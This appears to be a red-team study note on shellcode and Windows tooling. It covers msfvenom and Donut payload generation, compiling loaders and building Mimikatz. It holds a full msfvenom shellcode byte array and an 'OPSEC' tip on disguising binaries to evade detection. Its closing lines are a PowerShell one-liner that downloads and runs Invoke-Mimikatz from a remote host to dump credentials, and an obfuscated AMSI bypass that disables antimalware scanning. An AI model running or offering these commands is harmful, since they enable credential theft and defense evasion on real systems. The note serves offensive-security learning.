








# Shellcode

## [-] What is Position Independent Code (Shellcode)?
Position Independent Code is code that is designed to execute regardless of where it resides in memory. This is in contrast to most programs, which might need to be loaded at a specific address to function correctly. Shellcode is a type of PIC, often written for exploits and payloads in hacking.

The term “Shellcode” originally referred to code that, when executed, would spawn a command shell — hence the name. However, today, it generally refers to any payload used for exploitation.

### [-] Uses of Shellcode:
***Exploitation***: The primary use of shellcode is to exploit vulnerabilities in software, where the attacker can inject and execute their code.
***Payloads***: Once a vulnerability is exploited, shellcode can be used to deliver payloads, which can range from spawning a reverse shell to injecting ransomware or establishing persistence.
***Bypassing Restrictions***: Shellcode can be crafted to bypass security mechanisms, making detection and mitigation difficult.

### [-] Shellcode vs. Compiled Code vs. Interpreted Code:
***Shellcode***: As mentioned, shellcode is position-independent, designed to run from any location in memory. It doesn’t rely on external libraries or functions and should be small and efficient to work within the constraints of an exploit.

***Compiled Code***: This is code written in languages like C or C++ that is then compiled into machine code by a compiler. The result is a binary executable that the system can run. Unlike shellcode, compiled programs often rely on fixed memory addresses and external libraries.

***Interpreted Code***: This is code written in languages like Python, Ruby, or JavaScript that is executed line-by-line by an interpreter. It’s not converted into machine code; instead, the interpreter reads and executes it directly. This makes it generally slower than compiled code, but it’s more flexible and platform-independent.

PE-File vs Shellcode

```bash
msfvenom -a x64 --platform windows -p windows/x64/exec CMD=calc.exe -f c                                            
No encoder specified, outputting raw payload
Payload size: 276 bytes
Final size of c file: 1188 bytes
unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

# USing DONUT to convert a PE to Shellcode

```powershell
donut.exe -e 1 -a x64 -o shellcode.donut -f 3 -i calcloader.exe -z 1 -b 1 -k 2
```

In a Portable Executable (PE) file, the `unsigned char shellcode[]` array is typically stored in the `.data` section. This section is used for storing initialized global and static variables. The `.data` section is marked as readable and writable.

Here's a brief overview of the relevant sections in a PE file:

- **.text**: Contains the executable code.
- **.data**: Contains initialized global and static variables.
- **.bss**: Contains uninitialized global and static variables.
- **.rdata**: Contains read-only data, such as string literals and constants.

Since `shellcode` is an initialized global variable, it will be placed in the `.data` section of the PE file.

To summarize, the `unsigned char shellcode[]` array in your code will be stored in the `.data` section of the PE file.

Let's open CFF Explorer and dump the `data section`.



And open that file in Hexdump:



Let's have a look, lets open powershell and run our loader.



Then attach `x64dbg` to the localloader.exe and check for those two memory locations:










----

    **What is AMSI/Dotnet (managed/unmanaged code)**
        The .NET Framework provides the Assembly.Load method which allows loading Common Object 
        File Format (COFF) images like such as DLL’s and EXE’s. Assembly.Load can be supplied 
        with a file path to load a DLL from disk, or with a byte array to load directly in memory.

    Threatcheck/AMSI Trigger

    ClamAV
        dotpeek/hexdump --canonical
        strings -n 5

Shelcode formats (shellcode formatter etc)

> OPSEC HINT: Make sure your binaries look legit, add metadata and and icon to the file!

On Windows (requires SDK):
<https://dotnet.microsoft.com/en-us/>

***csc.exe (CSharp/dotnet)***
---
```code
c:\windows\Microsoft.NET\Framework\v3.5\bin\csc.exe /t:exe /out:loader.exe loader.cs
csc.exe /t:exe /out:$utilName /unsafe $katzPath
```

```csharp
// AssemblyInfo.cs
[assembly: AssemblyTitle("YourProductName")]
[assembly: AssemblyDescription("Some description")]
[assembly: AssemblyConfiguration("")]
[assembly: AssemblyCompany("YourCompanyName")]
[assembly: AssemblyProduct("YourProductName")]
[assembly: AssemblyCopyright("© YourCompanyName")]
[assembly: AssemblyTrademark("")]
[assembly: AssemblyCulture("")]
[assembly: AssemblyVersion("1.0.0.0")]
[assembly: AssemblyFileVersion("1.0.0.0")]
```

```powershell
csc -out:evil.exe -optimize- -win32icon:app.ico Program.cs AssemblyInfo.cs
```

You can extract metadata from any binary with this simple program.

```powershell
dotnet new console -n AssemblyInfoExtractor
cd AssemblyInfoExtractor
```

Create a "Program.cs" file here

```csharp
using System;
using System.Reflection;

namespace AssemblyInfoExtractor
{
    class Program
    {
        static void Main(string[] args)
        {
            if (args.Length == 0)
            {
                Console.WriteLine("Please provide the path to the assembly.");
                return;
            }

            string assemblyPath = args[0];
            try
            {
                var assembly = Assembly.LoadFile(assemblyPath);
                var assemblyName = assembly.GetName();

                Console.WriteLine($"Assembly Full Name: {assemblyName.FullName}");
                Console.WriteLine($"Version: {assemblyName.Version}");

                var attributes = assembly.GetCustomAttributesData();
                foreach (var attr in attributes)
                {
                    if (attr.AttributeType == typeof(AssemblyCompanyAttribute))
                    {
                        Console.WriteLine($"Company: {attr.ConstructorArguments[0].Value}");
                    }
                    if (attr.AttributeType == typeof(AssemblyProductAttribute))
                    {
                        Console.WriteLine($"Product: {attr.ConstructorArguments[0].Value}");
                    }
                    if (attr.AttributeType == typeof(AssemblyCopyrightAttribute))
                    {
                        Console.WriteLine($"Copyright: {attr.ConstructorArguments[0].Value}");
                    }
                    if (attr.AttributeType == typeof(AssemblyTitleAttribute))
                    {
                        Console.WriteLine($"Title: {attr.ConstructorArguments[0].Value}");
                    }
                    if (attr.AttributeType == typeof(AssemblyDescriptionAttribute))
                    {
                        Console.WriteLine($"Description: {attr.ConstructorArguments[0].Value}");
                    }
                }
            }
            catch (Exception ex)
            {
                Console.WriteLine($"Error: {ex.Message}");
            }
        }
    }
}
```

```powershell
dotnet build
dotnet run --project C:\Temp\AssemblyInfoExtractor\AssemblyInfoExtractor.csproj C:\Temp\LocalLoader.exe
```

or run the exe:

```powershell
C:\Temp\AssemblyInfoExtractor\bin\Debug\net9.0>dir
 Volume in drive C is Windows
 Volume Serial Number is 368D-BFAA

 Directory of C:\Temp\AssemblyInfoExtractor\bin\Debug\net9.0

02/21/2025  04:35 PM    <DIR>          .
02/21/2025  04:35 PM    <DIR>          ..
02/21/2025  04:31 PM               455 AssemblyInfoExtractor.deps.json
02/21/2025  04:35 PM             6,656 AssemblyInfoExtractor.dll
02/21/2025  04:35 PM           145,408 AssemblyInfoExtractor.exe
02/21/2025  04:35 PM            11,080 AssemblyInfoExtractor.pdb
02/21/2025  04:31 PM               268 AssemblyInfoExtractor.runtimeconfig.json
               5 File(s)        163,867 bytes
               2 Dir(s)   2,280,939,520 bytes free

C:\Temp\AssemblyInfoExtractor\bin\Debug\net9.0>AssemblyInfoExtractor.exe C:\Temp\LocalLoader.exe
Assembly Full Name: LocalLoader, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
Version: 1.0.0.0
Title: LocalLoader
Description:
Company:
Product: LocalLoader
Copyright: Copyright ©  2025
```


***msbuild.exe (CSharp, C++)***
---
```code
msbuild buildapp.csproj -t:HelloWorld
msbuild mimidogz.sln /t:Build /p:Configuration=Release /p:Platform=x64
```

```code
@echo off
set msBuildExe="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe"
set solutionsFile="C:\TestProject\mySln.sln"
rem Build the solutions:  
%msBuildExe% /t:Build /p:Configuration=Release /p:Platform=x64 %solutionsFile%
```
--- 
***CL.exe (C)*** Visual Studio
---
```code
Developer Prompt Visual Studio
cl.exe hello.c /out:hello.exe /exe

git clone https://github.com/gentilkiwi/mimikatz.git

cl.exe /Zi /I inc\ mimikatz\modules\misc\kuhl_m_misc_citrix.c modules\kull_m_kernel.c 
modules\kull_m_memory.c modules\kull_m_minidump.c modules\kull_m_output.c 
modules\kull_m_process.c modules\kull_m_string.c lib\x64\ntdll.min.lib 
/link kernel32.lib user32.lib advapi32.lib shell32.lib crypt32.lib rpcrt4.lib vcruntime.lib ucrt.lib 
/entry:kuhl_m_misc_citrix_logonpasswords 
/subsystem:console
```

-----

Staged vs Stageless

---

# A note on compiling

without code optimisation, all imported functions are show. With code optimization, only virtuallalloc and exitprocess.

The command `cl /Od /Zi /Fe:local_loader.exe Local_loader_C.c` is used to compile a C source file using the Microsoft Visual C++ (MSVC) compiler. Here's a breakdown of each part of the command:

- `cl`: This is the command-line compiler for Microsoft Visual C++.

- `/Od`: This flag disables optimization. It ensures that the compiler does not perform any optimizations that might remove or alter the code, which is useful for debugging and ensuring that all function calls are preserved.

- `/Zi`: This flag generates complete debugging information. It creates a Program Database (PDB) file that contains debugging information, which is useful for debugging the executable with a debugger.

- `/Fe:local_loader.exe`: This flag specifies the name of the output executable file. In this case, it sets the output file name to `local_loader.exe`.

- Local_loader_C.c: This is the name of the C source file to be compiled.

Putting it all together, the command compiles the Local_loader_C.c source file into an executable named `local_loader.exe`, with optimizations disabled and debugging information included.

To run this command, you would typically open a Developer Command Prompt for Visual Studio and execute the command there. Here is an example of how you might run it:

```sh
cl /Od /Zi /Fe:local_loader.exe Local_loader_C.c
```

After running this command, you can use tools like Dependency Walker to inspect the import table of `local_loader.exe` and verify that all the expected functions are listed.

----

```bash
C:\Lab>dumpbin /imports Local_loader_C.exe
Microsoft (R) COFF/PE Dumper Version 14.42.34436.0
Copyright (C) Microsoft Corporation.  All rights reserved.


Dump of file Local_loader_C.exe

File Type: EXECUTABLE IMAGE

  Section contains the following imports:

    KERNEL32.dll
             140017000 Import Address Table
             140020EC0 Import Name Table
                     0 time date stamp
                     0 Index of first forwarder reference

                         610 WaitForSingleObject
                         232 GetCurrentProcess
                         233 GetCurrentProcessId
                         103 CreateThread
                         5FF VirtualAlloc
                         654 WriteProcessMemory
                         4F5 RtlCaptureContext
                         4FD RtlLookupFunctionEntry
                         504 RtlVirtualUnwind
                         ...
```

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;

$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils';$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m));$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static');$field.SetValue($null,$true)